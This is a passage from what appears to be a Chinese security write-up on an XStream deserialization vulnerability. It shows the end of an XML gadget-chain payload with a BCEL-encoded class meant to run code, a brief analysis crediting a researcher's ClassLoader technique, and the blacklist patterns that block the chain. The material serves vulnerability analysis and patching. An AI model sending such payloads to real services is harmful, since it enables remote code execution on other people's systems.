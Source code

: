```xml
                  <nextName>$$BCEL$$$l$8b$I$A$A$A$A$A$A$Au$90$cdJ$c3$40$U$85$cfm$ab$a91$d5$fe$d8V$c1E$5d$d9$K$fd3$a4$b5T$dc$I$ae$y$8a$V$5dO$c7$a1$a4$c6$q$a4S$f5$8d$5c$bbQq$e1$D$f8P$ea$8d$I$W$c4$Z8$c3$bd$dc$f3$9d$99y$ffx$7d$D$60c$83P$O$ef$fc$fa$ae$d3$ea$ed$f5$da$b6c$b7z$dd$8e$e3t$ba$b6$B$od$t$e2V4$3d$e1$8f$9b$t$a3$89$92$da$40$92$60$O$83Y$q$d5$91$eb$v$c2$e6$3f$feFl$r$y$ee$bb$be$ab$P$I$c9j$ed$c2$82$81$b4$89$U$96$I$a9$c3$e0$8a$ed$b9$df$84$b3$99$af$dd$he$c0$e2$88$b1$d2$3f5$a1X$ad$j$ff$Z$eb$5bX$c1$aa$89$M$b2$84R$Q$w$bfR$X$V$v$3c9$f3$84$O$a2$86$I$c34$f2$i$a4$ee$95$qlW$e7$YC$j$b9$fe$b8$3f$8f$3d$8d$C$a9$a6S$c6$ae$a1$YcK$84$ccP$Ly$3d$Q$e1$b9$Yy$K$5bH$f0$dd$e3E$bc$f9$v$ac$cb$5c$b5$b9$9b$e4$b3$b0$f3$M$f3$81$7fh$f0$82$5c$be$f0$84$f2$e5$e3$f7$f0$3a$ab$F$fad$P$Z$M$89$7b$L$ac$J$y$7e$B$e0$d2$95$ea$8b$B$A$A</nextName>
                  <outer-class/>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```

### [](#分析-6 "分析")分析

重点是Wh1t3p1g师傅BCEL的 classLoader的构造思路及过程，可看师傅原博。

### [](#黑名单：-7 "黑名单：")黑名单：

```java
private static final Pattern BCEL_CL = Pattern.compile(".*\\.bcel\\..*\\.util\\.ClassLoader");
private static final Pattern LAZY_ITERATORS = Pattern.compile(".*\\$LazyIterator");
denyTypeHierarchy(InputStream.class);
denyTypeHierarchyDynamically("javax.activation.DataSource");
```
